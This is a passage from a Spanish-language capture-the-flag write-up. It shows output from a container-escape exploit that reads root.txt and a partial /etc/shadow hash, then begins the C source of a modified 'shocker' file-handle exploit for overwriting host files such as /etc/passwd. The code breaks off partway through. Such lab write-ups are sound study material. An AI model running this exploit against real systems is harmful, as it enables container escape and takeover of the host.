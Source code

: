 ```shell
[*] Found root.txt
[+] Match: root.txt ino=110097
[*] Brute forcing remaining 32bit. This can take a while...
[*] (root.txt) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0x11, 0xae, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0x11, 0xae, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Win! /etc/shadow output follows:
5f8e5df33844d437...
```

¡Y podemos leer la flag!

A mi este tipo de cosas no me gusta, por lo cual quiero ganar una consola interactiva en la máquina víctima.

En HackTricks, podemos ver un script modificado que nos permitiría escribir archivos.
```C
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>

// gcc shocker_write.c -o shocker_write
// ./shocker_write /etc/passwd passwd 

struct my_file_handle {
  unsigned int handle_bytes;
  int handle_type;
  unsigned char f_handle[8];
};
void die(const char * msg) {
  perror(msg);
  exit(errno);
}
void dump_handle(const struct my_file_handle * h) {
  fprintf(stderr, "[*] #=%d, %d, char nh[] = {", h -> handle_bytes,
    h -> handle_type);
  for (int i = 0; i < h -> handle_bytes; ++i) {
    fprintf(stderr, "0x%02x", h -> f_handle[i]);
    if ((i + 1) % 20 == 0)
      fprintf(stderr, "\n");
    if (i < h -> handle_bytes - 1)
      fprintf(stderr, ", ");
  }
  fprintf(stderr, "};\n");
} 
int find_handle(int bfd, const char *path, const struct my_file_handle *ih, struct my_file_handle *oh)
{
  int fd;
  uint32_t ino = 0;
  struct my_file_handle outh = {
    .handle_bytes = 8,
    .handle_type = 1
  };
  DIR * dir = NULL;
  struct dirent * de = NULL;
```